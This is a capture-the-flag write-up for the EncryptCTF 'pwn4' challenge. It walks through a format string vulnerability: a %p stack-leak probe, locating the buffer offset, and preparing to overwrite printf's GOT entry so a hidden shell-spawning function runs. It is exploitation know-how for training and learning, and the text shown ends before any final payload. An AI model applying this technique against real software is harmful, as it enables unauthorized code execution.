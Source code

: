 ## EncryptCTF: pwn4
##### *tl;dr: format string vulnerability*
#### I didn't solve this during the ctf since I had no knowledge regarding format string vulnerabilities and how to exploit them at that time. But with a little bit of reading, watching, and practice, I managed to solve it at last. For a better understanding of how the exploit works, watch LiveOverflow's [video](https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=21&t=221s). Checking the security of the binary, we get this:
```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
#### Stack protection measures are on, guaranteeing that we won't be doing some stack-smashing on this challenge. And interesting to see the `No RELRO` protection, which means that we can overwrite stuff on the `Global Offset Table`. We do a quick format string test running the binary.
```
$ ./pwn4
Do you swear to use this shell with responsility by the old gods and the new?

AAAA %p %p %p %p %p %p %p %p %p %p %p %p
AAAA (nil) 0x2 (nil) 0xf7ffda9c 0x1 0xf7fcf410 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
i don't belive you!
AAAA %p %p %p %p %p %p %p %p %p %p %p %p
```
#### And we can confirm that we have a format string vuln since we printed out values from the stack. We can also locate our buffer which is at the 7th offset. We can put our address at that offset and we can overwrite it to change control flow. But where do we want to redirect it to? Using gdb, we find a peculiarly labeled function `__` at address `0x0804853d`. Disassembling it we see the following code which grants us an interactive shell. 
```
gdb-peda$ disas __
Dump of assembler code for function __:
   0x0804853d <+0>:	push   ebp
   0x0804853e <+1>:	mov    ebp,esp
   0x08048540 <+3>:	sub    esp,0x18
   0x08048543 <+6>:	mov    DWORD PTR [esp],0x8048680
   0x0804854a <+13>:	call   0x8048400 <system@plt>
   0x0804854f <+18>:	leave  
   0x08048550 <+19>:	ret    
End of assembler dump.
```
#### Now that we have what we want to write, we figure out where do we want to write it to - the GOT entry of printf. If we successfully pull this off, when printf function is used, the flag function is called instead. We can easily get the addresses we need with gdb.
```
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0x80483c0 <printf@plt>

gdb-peda$ disas printf
Dump of assembler code for function printf@plt:
   0x080483c0 <+0>:	jmp    DWORD PTR ds:0x80498fc
   0x080483c6 <+6>:	push   0x0
   0x080483cb <+11>:	jmp    0x80483b0
End of assembler dump.
```
